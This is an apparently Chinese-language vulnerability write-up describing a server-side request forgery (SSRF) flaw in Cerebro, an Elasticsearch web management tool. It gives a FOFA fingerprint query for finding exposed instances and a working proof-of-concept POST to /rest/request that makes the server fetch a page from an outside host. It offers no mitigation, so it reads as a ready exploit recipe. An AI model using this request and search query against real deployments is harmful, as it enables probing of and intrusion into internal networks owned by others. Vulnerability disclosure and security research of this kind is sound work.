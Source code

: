 # Cerebro request SSRF漏洞

## 漏洞描述

Cerebro是使用Scala、Play Framework、AngularJS和Bootstrap构建的开源的基于Elasticsearch Web可视化管理工具。您可以通过Cerebro对集群进行web可视化管理，如执行rest请求、修改Elasticsearch配置、监控实时的磁盘，集群负载，内存使用率等。其中某功能存在SSRF漏洞，攻击者通过发送特定的请求包可以探测内网信息

## 漏洞影响

<a-checkbox checked>Cerebro</a-checkbox></br>

## FOFA

<a-checkbox checked>app="Cerebro"</a-checkbox></br>

## 漏洞复现

主页面

![img](../../../.vuepress/public/img/1643621805930-c98b1f7a-e9b0-452d-b4b1-0ac1e99f7084.png)

发送请求包

```go
POST /rest/request

{"method":"GET","data":"","path":"robots.txt","host":"https://www.baidu.com"}
```

![img](../../../.vuepress/public/img/1643622217572-65a71fc9-e87d-4c76-8848-515c854ea959.png)